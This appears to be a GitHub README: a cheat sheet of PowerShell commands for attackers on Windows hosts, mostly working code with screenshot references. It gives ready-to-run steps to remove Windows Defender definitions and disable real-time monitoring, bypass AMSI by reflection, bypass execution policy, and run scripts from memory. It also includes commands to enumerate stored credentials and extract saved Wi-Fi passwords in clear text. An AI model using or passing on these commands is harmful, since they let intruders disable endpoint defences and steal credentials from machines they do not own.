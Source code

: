 ## 1. Bypassing Windows Defender
Windows Defender is going to raise the first alarm. Disabling it is not an
option. </br>
A PowerShell script can <b>delete all signatures</b> in Defender making it
impossible for Defender to compare inbound malicious entities and raise the
alerts.
```powershell
& "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
Set-MpPreference -DisableRealtimeMonitoring $true
```
![Screenshot of disabling Windows Defender](./images/screenshot1.png)
---
## 2. system and network information
This script retrieves all properties of the operating system & network interface configurations
```powershell
Get-WmiObject -Class Win32_OperatingSystem | Select-Object -Property *
Get-NetIPConfiguration
```
![Screenshot of Get-WmiObject command](./images/screenshot2.png)
![Screenshot of Network Interface Info](./images/screenshot3.png)
---
## 3. List all the processes running on the system
This script retrieves running processes and sorts them by CPU usage in descending order.
```powershell
Get-Process | Select-Object -Property ProcessName, Id, CPU | Sort-Object -Property CPU -Descending
```
![Screenshot of Get-Process command](./images/screenshot4.png)
---
## 4. The attacker might want to scan for open ports
This script first retrieves all active TCP connections, showing their state, local address, port, and owning process.
It then will scan 1 to 1024 open ports to check for vulnerabilities that the attacker can exploit.
```powershell
Get-NetTCPConnection | Select-Object -Property State, LocalAddress, LocalPort, OwningProcess

1..1024 | ForEach-Object {
   $sock = New-Object System.Net.Sockets.TcpClient
   $async = $sock.BeginConnect('localhost', $_, $null, $null)
   $wait = $async.AsyncWaitHandle.WaitOne(100, $false)
   if($sock.Connected) {
       Write-Host "$_"
   }
   $sock.Close()
}
```
## 5.  Bypassing AMSI (Antimalware Scan Interface) to execute malicious scripts
The attacker might want to evade built-in PowerShell defenses before running scripts using the below command:

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed', 'NonPublic, Static').SetValue($null, $true)
```
![Screenshot of Bypassing AMSI Script](./images/screenshot6_1.png)
![Screenshot of Bypassing AMSI Script](./images/screenshot6_2.png)
---
## 6. Bypassing execution policy to run unsigned scripts
What is [PowerShell Gallery](https://www.powershellgallery.com/)? </br>
The following command temporarily bypasses the script execution policy to run a PowerShell script, allowing execution of unsigned scripts.
```powershell
Set-ExecutionPolicy Bypass -Scope Process; .\script.ps1
```
---
## 7. Bypass Execution Policy Temporarily
The command temporarily changes the script execution policy to allow the
running of unauthorized scripts, then reverts it back to its original state.
```powershell
$policy = Get-ExecutionPolicy;
Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope Process;
# Scriptofyourchoice;
Set-ExecutionPolicy -ExecutionPolicy $policy -Scope Process
```
---
## 8. Execute PowerShell Script from Memory
The attacker might want to run the entire PS script in memory without writing to the hard drive.
```powershell
# Read the content of the script from the file in memory
$code = [System.IO.File]::ReadAllText('C:\temp\script1.ps1')
# Execute the PowerShell script in memory
Invoke-Expression $code
```
---
## 9. Retrieving Stored Credentials
This command lists all stored credentials.
```powershell
cmdkey /list
```
![Screenshot of List Stored Credentials](./images/screenshot8.png)
---
## 10. Extract Wi-Fi Profile Names and Passwords
This script extracts Wi-Fi profile names and passwords stored on the computer.
```powershell
netsh wlan show profiles |
Select-String -Pattern 'All User Profile' |
ForEach-Object {
   $profileName = ($_ -replace 'All User Profile\s*:\s*','').Trim()
   netsh wlan show profile name="$profileName" key=clear
}
```
![Screenshot of Extract Wi-Fi Profile Names and Passwords](./images/screenshot10.png)

---

## 11. Bonus for Professionals
Watch an advanced attack demonstrated by a pro hacker:
[Watch the video here](https://youtu.be/qehMT4ZXEWo)

![GPO Attack](./images/gpo.PNG)

---



